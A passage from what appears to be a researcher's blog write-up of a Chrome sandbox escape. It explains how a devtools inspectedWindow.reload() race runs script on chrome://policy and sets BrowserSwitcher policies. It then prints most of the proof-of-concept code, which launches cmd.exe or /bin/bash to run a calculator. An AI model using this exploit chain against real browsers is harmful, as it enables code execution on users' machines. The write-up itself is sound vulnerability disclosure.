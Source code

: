 ![A screenshot of an alert() on chrome://policy.](/blog/assets/chrome_sandbox_escape/inspectedwindow_race.png)

And that's the final piece of the exploit chain working. This race condition relies on the fact that the inspected page and the devtools page are different processes. When the navigation to the WebUI occurs in the inspected page, there is a small window of time before the devtools page realizes and disables the API. If `inspectedWindow.reload()` is called within this interval of time, the reload request will end up on the WebUI page.

## Putting it All Together
Now that I had all of the steps of the exploit working, I began putting together the proof of concept code. To recap, this POC has to do the following:

1. Use the race condition in `chrome.devtools.inspectedWindow.reload()` to execute a JS payload on `chrome://policy`
2. That payload calls `sendWithPromise("setLocalTestPolicies", policy)` to set custom user policies.
3. The `BrowserSwitcherEnabled`, `BrowserSwitcherUrlList`, `AlternativeBrowserPath`, and `AlternativeBrowserParameters` are set, specifying `/bin/bash` as the "alternate browser."
4. The browser switcher is triggered by a simple `window.open()` call, which executes a shell command.

The final proof of concept exploit looked like this:
```js
let executable, flags;
if (navigator.userAgent.includes("Windows NT")) {
  executable = "C:\\Windows\\System32\\cmd.exe";
  flags = ["/C", "calc.exe & rem ${url}"];
}
else if (navigator.userAgent.includes("Linux")) {
  executable = "/bin/bash";
  flags = ["-c", "xcalc # ${url}"];
}
else if (navigator.userAgent.includes("Mac OS")) {
  executable = "/bin/bash";
  flags = ["-c", "open -na Calculator # ${url}"];
}

//function which injects the content script into the inspected page
function inject_script() {
  chrome.devtools.inspectedWindow.reload({"injectedScript": `
    (async () => {
      //check the origin, this script won't do anything on a non chrome page
      console.log(origin);
      if (!origin.startsWith("chrome://")) return;
      
      //import cr.js since we need sendWithPromise
      let cr = await import('chrome://resources/js/cr.js');
      
      //here are the policies we are going to set
      let policy = JSON.stringify([
        { //enable the browser switcher feature
          name: "BrowserSwitcherEnabled",
          value: true,
          level: 1,
          source: 1,
          scope: 1
        }, 
        { //set the browser switcher to trigger on example.com
          name: "BrowserSwitcherUrlList",
          value: ["example.com"],
          level: 1,
          source: 1,
          scope: 1
        }, 
```